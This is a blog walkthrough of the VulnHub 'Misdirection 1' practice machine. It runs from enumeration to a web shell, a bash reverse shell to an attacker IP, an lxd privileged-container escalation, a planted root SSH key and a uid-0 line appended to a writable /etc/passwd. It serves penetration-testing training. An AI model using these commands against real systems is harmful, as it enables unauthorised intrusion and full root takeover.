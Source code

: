 +++
title = "Vulnub: Misdirection 1"
date = "2021-04-21"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Sudo", "lxd", "Writeable Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
draft = false
+++

<!--more-->
{{< image src="/img/misdirection1/misdirection.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author | Machine link |
| ---------- | ------------ | ------ | ------- |
| Beginner | 24 Sep 2019 | FalconSpy | https://vulnhub.com/entry/misdirection-1,371/ |

# Summary

For this box, initial access was a web shell discovered. Then with low priv shell we could run bash as brexit user
and were able to pivot to that account. Once we are brexit user, we abuse his membership to the lxd to start a 
privileged container that can read and write the whole file system by mounting it in the container.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.136
Host is up (0.00032s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
# Enumeration

## 8080 (HTTP)

Nmap

```sh
# Nmap 7.91 scan initiated Wed Apr 14 06:31:44 2021 as: nmap -n -Pn -sV -p 8080 --script default,http-enum,http-shellshock,http-backup-finder,http-config-backup --append-output -oN recon-misdirection1/misdirection1-8080-httpnmap.enum 192.168.191.136
Nmap scan report for 192.168.191.136
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /debug/: Potentially interesting folder
|   /development/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /help/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /manual/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

ffuf

```sh
ffuf -ic -c -u http://192.168.191.136:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50 
```

```sh
js                      [Status: 301, Size: 322, Words: 20, Lines: 10]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10]
development             [Status: 301, Size: 331, Words: 20, Lines: 10]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10]
images                  [Status: 301, Size: 326, Words: 20, Lines: 10]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
```

After some directory bruteforcing on both port 80 and 8080 I discovered several directories. On port 8080 the debug directory
contains a web shell.

{{< image src="/img/misdirection1/misdirection-1.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as www-data

Supplying the following command we are able to get a reverse shell.

```sh
bash -c 'bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'
```
shell:

{{< image src="/img/misdirection1/misdirection-2.png" alt="" position="center" style="border-radius: 8px;" >}}

After some basic enumeration we discover www-data has sudo permissions to run /bin/bash as brexit user without
any password requirement.

{{< image src="/img/misdirection1/misdirection-3.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as brexit

```sh
sudo -u brexit /bin/bash
```

{{< image src="/img/misdirection1/misdirection-4.png" alt="" position="center" style="border-radius: 8px;" >}}

On running id we see that brexit is in the lxd group and no images are present.

{{< image src="/img/misdirection1/misdirection-10.png" alt="" position="center" style="border-radius: 8px;" >}}

# Shell as root

Brexit being in the lxd group allows for privilege escalation. First we need to add am image then create a container.

First we need to get distrobuilder, the compile it. This uses go to compile therefore you need go to be installed.

```sh
wget https://github.com/lxc/distrobuilder/archive/refs/tags/distrobuilder-1.2.zip
7z x distrobuilder-1.2.zip
cd distrobuilder-distrobuilder-1.2 
make
```

You can use go get as the repo instructions recommend but for me it didn't work as expected.

With distrobuilder ready, download the alpine image yaml file to build a small alpine image for lxd

```sh
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```
Then run distrobuilder with the alpine yaml file as below.

```sh
sudo ~/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
This will result in two files: lxd.tar.xz and rootfs.squashfs.

We then need to transfer this two files to our victim for privesc.

```sh
# on kali

python3 -m http.server

# on victim

wget 192.168.191.1:8000/lxd.tar.xz
wget 192.168.191.1:8000/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```

{{< image src="/img/misdirection1/misdirection-5.png" alt="" position="center" style="border-radius: 8px;" >}}

After adding the image we need to run lxd init and can keep everything default.

```sh
lxd init
```

{{< image src="/img/misdirection1/misdirection-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Then create the container to be privileged and mount the host os file system inside it.

```sh
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```
With this we can read the host file system from inside the container and can read root.txt.

{{< image src="/img/misdirection1/misdirection-8.png" alt="" position="center" style="border-radius: 8px;" >}}

To get shell as root I added a public key to authorized_keys of the root user and can ssh in as root.

{{< image src="/img/misdirection1/misdirection-9.png" alt="" position="center" style="border-radius: 8px;" >}}

# Extras

After looking at other writeups, there was another easy privesc that I didn't explore.

- Writeable /etc/passwd file

The passwd file is writeable by the users in the brexit group.

{{< image src="/img/misdirection1/misdirection-11.png" alt="" position="center" style="border-radius: 8px;" >}}

We can add user with id 0 that will give us root privileges.

```sh
openssl passwd -1 -salt user password123

echo 'user:$1$user$nY3qj2koDQU1.5HG4ZTj9/:0:0:User:/root:/bin/bash' >>/etc/passwd
```

{{< image src="/img/misdirection1/misdirection-12.png" alt="" position="center" style="border-radius: 8px;" >}}

# References

https://rioasmara.com/2021/01/29/privilege-escalation-with-lxd/

https://www.hackingarticles.in/lxd-privilege-escalation/

https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-etc-passwd
